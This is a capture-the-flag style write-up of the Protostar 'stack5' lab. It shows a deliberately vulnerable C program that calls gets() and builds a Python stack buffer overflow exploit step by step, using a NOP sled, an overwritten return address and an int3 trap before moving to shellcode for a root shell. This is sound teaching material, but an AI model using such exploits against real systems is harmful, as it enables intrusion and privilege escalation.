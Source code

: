 # Stack5
## Briefing
Stack5 is a standard buffer overflow, this time introducing shellcode.

This level is at /opt/protostar/bin/stack5

Hints:

1. At this point in time, it might be easier to use someone elses shellcode.
2. If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger.
3. remove the int3s once your shellcode is done.
## Source Code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
## Solution
Stack5 is an actual buffer overflow exploit with shellcode.
The idea is this:
We put in, PADDING + RETURN + NOPS + SHELLCODE/TRAP.
The padding fills up the buffer until we are overwriting the return address, so we will start with that and come onto the other things.later, lets do the usual approach.
```
exploit = ''
exploit += 'A' * 64
exploit += 'BBBBCCCCDDDDEEEEFFFFGGGG'

print(exploit)
```
When feeding this to the program we get a fault at 0x45454545 again.
```
Program recieved signal SIGSEGV, Segmentation fault. 
0x45454545 in ?? ()
```
Like stack4 we now know that we can enter 76 letters until we overwrite the return address.
Our exploit now looks like this: 76 letters + RETURN + NOPS + SHELLCODE/TRAP.
Now we are going to add our NOPs and a code execution trap.
The trap, '\xcc' stops code execution completely when ran by the program, if we hit the trap it means that our code is being executed by the program, then we can simply swap the trap out for some working shellcode.
But how can we get our code to run? Well its simple, the return address runs what ever it is set too.
If we overwrite the return to the address of our trap, the return will jump there and run the trap for us, which we will be able to see in gdb.
While this exploit would work in theory, there are some issues with it.
The issues are, how do we find out the address of our trap. And also how do we know that gdb is accurate with the address. (it's not)
This is where are NOPs come in.
The NOP, (No-operation, \x90) does nothing. But think about it, if we have 100 nothing operations and a trap at the end, we only need to hit an address of a NOP with the return address and then it will do nothing until it finally reaches our code and then runs it!
We have essentially multiplied our room for error by 100!
Having a payload of length 101 now also makes it far easier to spot this payload and find out its memory address!
Now lets update our code:
```
import struct

nop = '\x90'
trap = '\xcc'
rp = 'BBBB'

exploit = ''
exploit += 'A' * 76
exploit += rp
exploit += nop * 100
exploit += trap

print(exploit)
```
Ok now lets feed this into GDB, and we see...
```
Program recieved signal SIGSEGV, Segmentation fault. 
0x42424242 in ?? ()
```
Segfault at our return address, as expected, here we can now use the `x/100x $esp` command to look into the stack and see where the nops are.
I found mine at 0xbffffd50, you should just use an address in the middle of the nops. Remember you are looking for 0x90909090, because the nop is '\x90'
now we finally plug that address into our code:
```
import struct

nop = '\x90'
trap = '\xcc'
rp = struct.pack("<L", 0xbffffd50)

exploit = ''
exploit += 'A' * 76
exploit += rp
exploit += nop * 100
exploit += trap

print(exploit)
```
The final run in gdb...
```
Program recieved signal SIGTRAP, Trace/Breakpoint trap. 
```
We have code execution! the program hit our trap!
Now you can simply swap out the trap for any shellcode you want. If you want to make a root shell because these files are SUID binaries then I like to use this one, /bin/dash http://shell-storm.org/shellcode/files/shellcode-811.php
